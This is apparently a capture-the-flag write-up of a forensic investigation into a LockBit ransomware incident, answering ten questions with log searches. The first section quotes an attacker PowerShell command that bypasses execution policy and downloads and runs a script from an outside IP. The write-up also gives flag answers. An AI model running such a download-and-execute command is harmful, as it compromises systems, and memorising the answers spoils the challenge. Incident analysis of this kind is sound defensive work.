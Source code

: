 # DayOff

## DayOff_01
> After unsuccessfull data exfiltration on Exchange server and after failing his primary objective, adversary decided to at least do as much harm as possible. Still on the Exchange, he downloaded another powershell script. What is the URL from which the script was downloaded?

While investigating commands executed on Exchange server, we saw following command executed sometime after unsuccessful attempt to stop Exchange:

![](img/DayOff/20250206201726.png)

```
powershell -Command & {Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force; Invoke-WebRequest -Uri 'http://72.21.192.5/job.ps1' -OutFile 'c:\windows\syswow64\com\dmp\enjoyfreeworkday.ps1';c:\windows\syswow64\com\dmp\enjoyfreeworkday.ps1}
```

> Flag: `http://72.21.192.5/job.ps1`

## DayOff_02
> How many times (or on how many computers) was this file downloaded? Think twice before answering this question, you have only 3 attempts to answer this question. If you can't find the correct answer, it is the end of the game for you.

Searched for `powershell.file.script_block_text: "http://72.21.192.5/job.ps1"` while also removing all filters and ensuring full timeframe was selected, then looked at field statistics - distinct value for `host.name`:

![](img/DayOff/20250206202103.png)

> Flag: `23`

## DayOff_03
> What is the full file.path where the file was downloaded?

We have answer for this in [DayOff_01](#dayoff_01):

> Flag: `c:\windows\syswow64\com\dmp\enjoyfreeworkday.ps1`

## DayOff_04
> Another tricky one with only 3 attempts to answer it. From all the computers, where job.ps1 was downloaded, there are 2 computers, where evidence of enjoyfreeworkday.ps1 file creation is missing (Sysmon was not running on them). What are these 2 computers? Answer in format (without quotes) "computer1,computer2". "computer2,computer1" will be accepted too.

Here we used power of Visualize library, where we want to see all the hostnames on which `enjoyfreeworkday.ps1` file creation was captured by sysmon, so that we can identify the two where it was not reported.
First we set up filters and search string:

![](img/DayOff/20250206203237.png)

Next, we select table view and add `host.name` into row data and select count as metric:

![](img/DayOff/20250206203401.png)

The result is table containing all hosts where this event was triggered, we just had to cross-check that with office inventory and identify the two missing:

![](img/DayOff/20250206203501.png)

> Flag: `msexch16,officewin5`

## DayOff_05
> Missing Sysmon on 2 computers starts complicating the things for us a little bit, so doublecheck your answer before entering the flag. What is the most frequent file.path of the ransom note? Again, 3 attempts.

Started looking at the events with filter `event.action:File create (rule: FileCreate)` and noticed spike around `22:10` which could result from file encryption activity. 

![](img/DayOff/20250206204015.png)

Focused on that timeframe and used the Field statistics and looked at the `file.name` for suspicious files created and one stood out: `teViazD4k.README.txt`. 

![](img/DayOff/20250206204129.png)

After searching for `file.path:*teViazD4k.README.txt*` in full timeframe, the top `file.path` was identified:

![](img/DayOff/20250206204315.png)

> Flag: `C:\Temp\teViazD4k.README.txt`

## DayOff_06
> How many copies of ransom note were created (are visible in the logs to be precise)? Again, 3 attempts.

From previous task, we saw total documents count `331`:

> Flag: `331`

## DayOff_07
> How many copies of ransom note were created on the computer with the most copies of ransom note?

Used some graph editing magic to display hosts with top number of ransom note files occurrences and then looked the number that the one with most occurrences has.

![](img/DayOff/20250206204507.png)

> Flag: `143`

## DayOff_08
> What is the SHA256 hash of the ransomware ps1 file? Sorry, 3 attempts maximum to prevent guessing.

We know that the ransomware ps1 file was downloaded from `http://72.21.192.5/job.ps1` but we could not find any sha256 in the logs. So we tried OSINT technique to see if we can find the answer. We started with googling `teViazD4k.README.txt` which lead us to `https://tria.ge/250110-qwg51sxphm` where we learned this is lockbit malware and noticed the sha256 there `e4127a5742f378ccf72cfb4f2166a692483c1e2289422546f726806fc696aef2` but it was not accepted. Then we took the name of the target file `21a7fba68d5abd4c3837521c2e86a03454e98a4f9517fa83ff00c47fb3c4cd44` and checked it against VirusTotal page `https://www.virustotal.com/gui/file/21a7fba68d5abd4c3837521c2e86a03454e98a4f9517fa83ff00c47fb3c4cd44` and noticed it references `job.ps1` and `powershell` and tried to submit it and it was accepted answer.

> Flag:`21a7fba68d5abd4c3837521c2e86a03454e98a4f9517fa83ff00c47fb3c4cd44`

## DayOff_09
> What is the ransomware family of this ransomware? One word, 3 attempts max.

From VirusTotal page:

![](img/DayOff/20250206204905.png)

> Flag: `lockbit`

## DayOff_10
> There are 2 computers (on top of the other two where sysmon was not running), where ps1 file was downloaded, but ransom note was not created. What are the host.names of them? Answer in format (without quotes) "computer1,computer2". "computer2,computer1" will be accepted too. This is the final question of the qualification.

As we know from previous task [DayOff_04](#dayoff_04) that malware was executed on 21 hosts, we need to search for `file.path:*teViazD4k.README.txt*` and by utilizing Field statistics compare with [DayOff_04](#dayoff_04) to see which host.hostname are missing.

Searching for revealed that ransomware note was executed on 19 systems:

![](img/DayOff/20250206205336.png)

It was easy from here to cross-check with [DayOff_04](#dayoff_04) and identify two missing hosts.

> Flag: `rds1,rds2`


